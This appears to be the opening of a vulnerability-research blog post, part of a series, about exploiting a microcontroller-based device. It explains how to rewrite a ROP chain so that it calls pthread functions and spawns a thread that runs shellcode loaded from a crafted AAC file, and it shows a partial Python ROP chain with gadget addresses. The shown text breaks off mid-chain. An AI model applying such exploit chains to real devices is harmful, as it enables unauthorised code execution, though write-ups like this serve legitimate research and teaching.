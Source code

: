 ```yaml
---
published: true
title: "🪂 [4] Gotta Catch 'Em All!"
toc: true
toc_sticky: true
categories:
  - VR
tags:
  - Exploitation
  - ROP
  - Shellcode
  - C
tagline: "Now that we have pretty reliable execution of shellcode, lets see if this MCU is powerful enough to play some classic Pokemon games!"
excerpt: "I really fancy playing some Pokemon Red, but I don't have a Gameboy..."
windowGradientStart: "#7c7974"
windowGradientEnd: "#bdb9af"
windowBorder: "#7c7974"
minimizeButton: "#7e768b"
maximizeButton: "#41357b"
closeButton: "#802e58"
---
```


# Spawning a Thread

At this stage, we are jumping straight to our shellcode and exiting - it would be much better if we could simply spawn a thread that runs our payload.

To do this, we rewrite the ROP-chain to execute the following functions (note we could use the **rt_thread** functions, but these nicely provided **pthread** wrappers work well enough):

- **pthread_attr_init( &attr );**
- **pthread_attr_setstacksize( &attr, 0x4000 );**
- **pthread_attr_setschedparam( 0xf );**
- **pthread_create( &thread_id, &attr, thread_function, NULL );**

We use this code to spawn a thread that executes our shellcode (which is the **thread_function** in the above code).

Here is the ROP-chain (minus the **fopen** *test.aac* we saw previously to load the shellcode into a buffer and the fixup stuff):

```
-python
...
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fd974) # r5 <- address of pthread_attr_init
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0x00000000) # r7
rop_chain += p32(0x00000000) # r8 
rop_chain += p32(0xc03edf0c) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# need to do the following:
# - call pthread_attr_init
# - call pthread_attr_setstacksize(0x4000)
# - call pthread_attr_setschedparam(0xf)
# - call pthread_create

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  

## call pthread_attr_init
```